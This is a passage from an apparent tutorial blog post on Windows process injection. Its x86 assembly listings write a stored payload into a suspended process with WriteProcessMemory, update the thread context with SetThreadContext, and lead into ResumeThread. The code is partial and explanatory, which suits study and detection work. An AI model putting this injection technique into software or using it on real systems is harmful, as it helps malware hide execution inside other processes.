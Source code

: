     dd 0x00000000

main:
    ; ----- SNIP -----
    ; other code
    ; --- END SNIP ---
    push 0                              ; lpNumberOfBytesWritten = NULL
    push 0x0C0                          ; nSize = 0x0C0 = 192 bytes
    jmp short injected_code             ; jump to the stored code
    injected_code_return:               ; lpBuffer = return address pushed to the stack
    push eax                            ; lpBaseAddress = EAX (Returned from: 
                                        ; VirtualAllocEx)
    push dword [esi]                    ; hProcess = PROCESS_INFORMATION.hProcess = ESI
    call [ebp+0x18]                     ; Call WriteProcessMemory
{% endhighlight %}
<p align="center">
    <em>Code Listing 16: Write a Stored Payload to a Suspended Process</em>
</p>

### Setting the Thread Context
With the injected code written to the suspended process, the thread context needs to be updated with the modified **CONTEXT** object. The **CONTEXT** object should still be located at **ESP** in this example. The [SetThreadContext](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadcontext) Win32 API will be called to update the suspended process.

{% highlight text %}
BOOL SetThreadContext(
  HANDLE        hThread,
  const CONTEXT *lpContext
);
{% endhighlight %}
<p align="center">
    <em>Code Listing 17: SetThreadContext Win32 API</em>
</p>

The **hThread** value will, again, be provided by the **hThread** value at the offset of **0x04** of the **PROCESS_INFORMATION** object stored on the stack and referenced by **ESI**.

The **lpContext** value will be provided by the **CONTEXT** object stored on the stack and currently located at the top of the stack.

The following assembly code will update the thread context in the suspended process:

{% highlight Nasm linenos %}
push esp                            ; lpContext = CONTEXT structure
push dword [esi+0x04]               ; hThread = PROCESS_INFORMATION.hThread = ESI+0x04
call [ebp+0x1C]                     ; Call SetThreadContext
{% endhighlight %}
<p align="center">
    <em>Code Listing 18: Calling SetThreadContext</em>
</p>

### Resuming the Suspended Process
The stage is now set to resume the suspended process and execute the injected code. The [ResumeThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread) Win32 API will be called to resume the process.
